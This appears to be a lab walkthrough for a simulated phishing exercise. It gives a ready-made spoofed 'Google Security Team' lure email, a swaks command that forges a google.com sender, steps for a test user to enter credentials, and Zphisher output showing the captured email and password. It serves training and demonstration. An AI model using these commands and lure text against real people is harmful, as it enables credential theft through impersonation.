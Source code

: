 #### **Attacker: Lure Crafting & Delivery**

*Open a new terminal on the Attacker node for these commands, leaving Zphisher running.*

```bash
# Create the phishing email content in a file named 'google_lure.txt'
# Replace '<generated>' with the actual URL from Zphisher
tee google_lure.txt > /dev/null <<'EOF'
Subject: Security Alert: Your Account Was Accessed From a New Device
Hi there,
A sign-in attempt was just blocked on your Google Workspace account from
an unrecognised device.
For your security, please review your account activity and confirm it was
you by logging in via the link below:
http://<generated>
If you do not recognise this activity, your password may have been
compromised.
Thank you,
The Google Security Team
EOF

# Use swaks to send the spoofed email to the target
# **IMPORTANT** Ensure this is all on one line
swaks --to testuser@internal-workspace.co.uk --from "'Google Security' <no-reply@google.com>" \
--server 192.168.10.12 --body google_lure.txt
```

---

#### **User Simulation (On Server Node)**

```bash
# Log in to the server as the target user
su - testuser

# Launch the email client to read the phishing email
mutt

# --- User Actions ---
# 1. Open the email from "Google Security".
# 2. In a graphical web browser on the Server, navigate to the Cloudflared URL from the email.
# 3. Enter credentials (e.g., 'testuser@internal-workspace.co.uk' and 'MyComplexP@ssw0rd!') into the fake login page.
```

---

#### **Attacker: Verify Credential Capture**

*Switch back to the terminal where Zphisher is running on the Attacker node.*

```
# Zphisher's output will display the captured credentials in real-time.
[+] Account Found!
================================================
[+] Email : testuser@internal-workspace.co.uk
[+] Password : MyComplexP@ssw0rd!
================================================
[+] Saved in : sites/google/usernames.txt
[+] Waiting for Next Target...
```
